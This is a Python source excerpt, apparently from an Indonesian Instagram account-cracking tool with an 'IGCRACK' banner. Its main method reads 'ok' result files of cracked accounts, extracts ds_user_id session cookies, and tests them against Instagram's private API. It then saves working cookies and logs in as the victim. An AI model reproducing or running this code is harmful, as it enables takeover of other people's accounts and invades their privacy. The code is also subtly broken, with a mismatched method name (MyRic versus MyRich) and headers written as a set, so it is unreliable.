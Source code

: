    def MyRic(self, Text, chos=None):
       self.cat = 'color(8)'
       if self.cat not in temane:temane.append(self.cat)
       if chos:
          Console(width=62).print(Nel(Text,subtitle='┌─',subtitle_align='left',\
          style=self.cat))
       else:
          Console(width=62).print(Nel(Text, \
          style=self.cat))

   def Me(self):
       self.MyRich('''[blue]
  ██▓  ▄████  ▄████▄   ██▀███   ▄▄▄       ▄████▄   ██ ▄█▀
  ▓██▒ ██▒ ▀█▒▒██▀ ▀█  ▓██ ▒ ██▒▒████▄    ▒██▀ ▀█   ██▄█▒ 
  ▒██▒▒██░▄▄▄░▒▓█    ▄ ▓██ ░▄█ ▒▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ 
  ░██░░▓█  ██▓▒▓▓▄ ▄██▒▒██▀▀█▄  ░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ 
  ░██░░▒▓███▀▒▒ ▓███▀ ░░██▓ ▒██▒ ▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄
  ░▓   ░▒   ▒ ░ ░▒ ▒  ░░ ▒▓ ░▒▓░ ▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒
  ▒ ░  ░   ░   ░  ▒     ░▒ ░ ▒░  ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░
  ▒ ░░ ░   ░ ░          ░░   ░   ░   ▒   ░        ░ ░░ ░ ''')

   def find_res(self, meki=[]):
       try:
           self.file = os.listdir('data')
           self.dihi = 0
           print('\n [ Pilih File Anda ]\n')
           for self.su in self.file:
               if 'ok' not in self.su.lower() or 'cp' in self.su.lower():pass
               else:
                    self.dihi +=1
                    print(' %s. %s'%(self.dihi,self.su))
           self.name = input('\n Masukan nama file : ')
       except Exception as e:exit(e)
       for a in open(f'data/{self.name}','r').read().splitlines():
           xyz = re.findall('ds_user_id=(.*)',str(a))
           if len(xyz) == 0:continue
           else:
                if xyz not in meki:meki.append('ds_user_id=%s'%(xyz[0]))
       if len(meki) == 0:
          exit(f'\nTidak Bisa menemukan cokie!')
       else:
          for memek in meki:
              try:
                  print(f'\n Mencoba: {H}{memek}{P}')
                  xyz = {'Mozilla/5.0 (Linux; Android 14; SM-S918B Build/UP1A.240205.007; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/132.0.6789.12 Mobile Safari/537.36 Instagram 320.0.0.43.109 Android (34/14; 460dpi; 1080x2400; samsung; SM-S918B; dm3q; qcom; en_US; 579988320)'}
                  uid = re.search(r'ds_user_id=(\d+)', str(memek)).group(1)
                  req = requests.get(f'https://i.instagram.com/api/v1/users/{uid}/info/', headers=xyz, cookies={'cookie':memek}).json()['user']['full_name']
                  open('data/IG-login.txt','w').write(f'{memek}')
                  print(f'\n {P}Login sebagai : {H}{req}')
                  time.sleep(2)
                  os.system('clear' if sys.platform.lower() == 'linux' else 'cls')
                  self.insta()
              except Exception as e:
                  print(f'\n{P} Expired: {K}{memek}')
